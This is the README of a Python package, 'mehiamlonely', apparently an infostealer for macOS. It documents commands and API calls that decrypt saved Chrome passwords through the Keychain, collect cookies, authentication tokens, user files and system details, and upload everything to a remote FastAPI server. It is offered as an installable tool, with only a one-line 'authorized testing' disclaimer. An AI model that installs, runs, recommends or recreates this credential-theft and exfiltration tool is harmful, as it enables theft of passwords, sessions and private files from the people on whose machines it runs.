 # mehiamlonely

A comprehensive Python library for extracting Chrome passwords, cookies, tokens, and macOS file system data, then uploading everything to your FastAPI server.

## Features

- 🔐 **Chrome Data Extraction**: Passwords, cookies, session data, bookmarks
- 📁 **File System Access**: Browse accessible files on macOS
- 🖥️ **System Information**: Hardware specs, running processes, disk usage
- 🚀 **FastAPI Integration**: Easy upload to your server
- 💻 **CLI Interface**: Simple terminal commands
- 🔒 **Secure**: Uses macOS Keychain for Chrome decryption

## Installation

```bash
pip install mehiamlonely
```

## Quick Start

### 1. Create a FastAPI Server (Optional)

Generate a sample server to test with:

```bash
mehiamlonely --create-server
python sample_server.py
```

### 2. Extract and Upload Data

```bash
# Basic usage - extract and upload to server
mehiamlonely --server http://localhost:8000

# With verbose output
mehiamlonely --server http://localhost:8000 --verbose

# Upload actual files (not just metadata)
mehiamlonely --server http://localhost:8000 --upload-files

# Save data locally and upload
mehiamlonely --server http://localhost:8000 --output data.json

# Test connection without extracting
mehiamlonely --server http://localhost:8000 --test-connection
```

## Programmatic Usage

```python
import mehiamlonely

# Extract all data
data = mehiamlonely.extract_all_data()

# Extract specific components
chrome_data = mehiamlonely.extract_chrome_data()
files = mehiamlonely.extract_system_files()
system_info = mehiamlonely.extract_system_info()

# Upload to server
import asyncio
result = asyncio.run(mehiamlonely.upload_all_data("http://localhost:8000", data))
```

## What Gets Extracted

### Chrome Data
- **Passwords**: Saved login credentials (decrypted using macOS Keychain)
- **Cookies**: Session cookies and authentication tokens
- **Bookmarks**: All saved bookmarks
- **Profiles**: Multiple Chrome profiles
- **Preferences**: Browser settings and extensions

### File System
- **User Files**: Desktop, Documents, Downloads, Pictures, etc.
- **Applications**: Installed applications
- **File Metadata**: Size, modification date, permissions

### System Information
- **Hardware**: CPU, memory, disk usage
- **Processes**: Running applications
- **User Info**: Username, hostname, home directory

## Security & Privacy

- Uses macOS Keychain for Chrome password decryption
- Only accesses files you have permission to read
- No data is stored locally (unless you specify `--output`)
- All communication with server is over HTTP/HTTPS

## API Endpoints

Your FastAPI server should implement these endpoints:

- `GET /api/health` - Health check
- `POST /api/extract` - Receive extracted data
- `POST /api/upload-file` - Receive uploaded files
- `GET /api/data/{client_id}` - Get stored data
- `GET /api/files` - List uploaded files

## Requirements

- macOS (uses macOS-specific APIs)
- Python 3.7+
- Chrome browser installed
- FastAPI server (optional, for receiving data)

## License

MIT License - see LICENSE file for details.

## Disclaimer

This tool is for educational and authorized testing purposes only. Always ensure you have proper authorization before extracting data from any system.